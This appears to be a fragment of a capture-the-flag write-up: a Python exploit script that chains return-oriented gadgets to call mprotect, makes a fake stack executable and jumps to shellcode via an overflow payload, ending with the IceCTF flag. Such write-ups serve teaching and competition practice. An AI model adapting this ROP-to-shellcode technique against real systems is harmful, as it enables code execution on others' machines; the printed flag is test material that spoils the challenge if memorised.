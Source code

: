 ```
popeax = 0x080bd026 # pop eax; ret
mprotect = 0x8072c50 # address to mprotect

# The ropchain computes args to mprotect and pushes them
# to the right address in fake stack, which is after mprotect_base.
# mprotect_base is a value I have computed by trial, looking
# at where, after payload injection, mprotect address was loaded
# into fake stack.

ropchain = p32(popedx) + p32(mprotect_base + 4) + p32(popeax)
ropchain += p32(stackpage_base - 1) + p32(inceax) + p32(movdpedx)
ropchain += p32(popedx) + p32(mprotect_base + 8) + p32(xoreax)
ropchain += p32(inceax) + p32(movdpedx) + p32(popedx) + p32(mprotect_base + 12)
ropchain += p32(xoreax) + p32(inceax)*7 + p32(movdpedx) + p32(mprotect)
# mprotect_base + 16 points to the shellcode; we need to ret to it.
# BBBB*3 will be overwritten at runtime by movdpedx gadgets.
ropchain += p32(mprotect_base + 16) + "BBBB"*3


payload = "A"*6394  # Distance between 0xffff0000 - 0x4 and start of USER
payload += p32(0xffff1004) # address to load into esp + 0x4
payload += 'A'*4096 # JUNK
payload += ropchain
payload += shellcode
payload += 'A'*(30000 - len(payload)) # just because I used 30k to compute addresses and experiment.
print(payload)
```



IceCTF{s1ze_matt3rs_n0t}
